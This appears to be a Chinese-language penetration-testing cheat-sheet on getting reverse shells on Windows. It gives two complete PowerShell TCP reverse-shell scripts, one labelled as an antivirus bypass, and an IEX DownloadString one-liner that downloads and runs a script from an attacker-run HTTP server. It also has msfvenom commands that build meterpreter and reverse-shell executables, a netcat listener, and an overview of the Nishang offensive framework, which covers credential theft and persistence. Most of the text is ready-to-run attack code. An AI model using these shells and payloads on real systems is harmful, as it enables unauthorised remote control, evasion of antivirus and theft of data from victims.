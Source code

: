 **rev.ps1**
https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3
```powershell
$client = New-Object System.Net.Sockets.TCPClient('192.168.45.159',2233);$stream = $client.GetStream();[byte[]]$bytes = 0..65535\|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" \| Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()|
```
修改代码后建立本地服务器并建立监听 `python -m http.server 80`
调用：
```powershell
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.159/rev.ps1')"
```


**rev_bypass.ps1**
```powershell
$c = New-Object Net.Sockets.TCPClient('10.10.16.21',443);$s = $c.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $d 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$ssb = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($ssb,0,$ssb.Length);$s.Flush()};$c.Close()
```

#### Metasploit
**0x01**
生成一个 reverse_tcp ，然后下载到靶机
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LPORT=1337 LHOST=tun0 -f exe > shell.exe
```

设置攻击载荷
```bash
set payload windows/x64/meterpreter/reverse_tcp
```

**0x02**
生成反向 shell，下载到靶机
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.170 LPORT=4444 -f exe > rev.exe
```

```bash
rlwrap nc -lvvnp 4444
```


##  NiShang

**nishang** ( /naiʃæŋ/ ) : https://github.com/samratashok/nishang

Nishang 是⼀个基于 PowerShell 的框架和脚本集合，⽤于进⾏攻击性安全测试、渗透测试和红队⾏动。
Nishang 提供了⼀系列基于 PowerShell 的⼯具和载荷，可⽤于侦察、利⽤、横向移动、持久化和数据窃取等不同任务。

以下是 Nishang 提供的⼀些功能和特点： 
1. 远程 Shell 和命令执⾏ 
2. 基于 PowerShell 的反向和绑定 Shell 
3. ⽂件和数据操作 
4. Active Directory 的枚举和利⽤ 
5. 凭据窃取和令牌操作 
6. ⾃动化利⽤和后渗透模块 
7. 提权技术 
8. Web 服务器和客户端功能 
9. 持久化机制和后⻔ 
10. 绕过杀毒软件的技术

